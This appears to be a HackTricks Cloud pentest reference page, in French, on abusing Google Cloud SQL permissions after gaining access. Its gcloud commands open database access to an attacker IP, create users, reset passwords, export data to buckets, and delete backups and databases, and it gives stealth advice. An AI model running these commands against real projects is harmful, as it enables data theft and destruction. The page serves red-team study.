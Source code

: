 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Pour plus d'informations sur Cloud SQL, consultez :

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Pour se connecter aux bases de données, vous **avez juste besoin d'accéder au port de la base de données** et de connaître le **nom d'utilisateur** et le **mot de passe**, il n'y a pas d'exigences IAM. Donc, un moyen facile d'accéder, en supposant que la base de données a une adresse IP publique, est de mettre à jour les réseaux autorisés et **permettre à votre propre adresse IP d'y accéder**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Il est également possible d'utiliser **`--no-backup`** pour **perturber les sauvegardes** de la base de données.

Comme ce sont les exigences, je ne suis pas complètement sûr de ce que sont les permissions **`cloudsql.instances.connect`** et **`cloudsql.instances.login`**. Si vous le savez, envoyez une PR !

### `cloudsql.users.list`

Obtenez une **liste de tous les utilisateurs** de la base de données :
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Cette permission permet de **créer un nouvel utilisateur à l'intérieur** de la base de données :
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Cette permission permet de **mettre à jour un utilisateur à l'intérieur** de la base de données. Par exemple, vous pourriez changer son mot de passe :

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Les sauvegardes peuvent contenir **de vieilles informations sensibles**, il est donc intéressant de les vérifier.\
**Restaurer une sauvegarde** dans une base de données :
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Pour le faire de manière plus discrète, il est recommandé de créer une nouvelle instance SQL et de récupérer les données là-bas au lieu de dans les bases de données actuellement en cours d'exécution.

### `cloudsql.backupRuns.delete`

Cette permission permet de supprimer des sauvegardes :
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporter une base de données** vers un Cloud Storage Bucket afin que vous puissiez y accéder depuis là :
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importer une base de données** (écraser) depuis un Cloud Storage Bucket :
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Supprimer une base de données de l'instance de base de données :
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
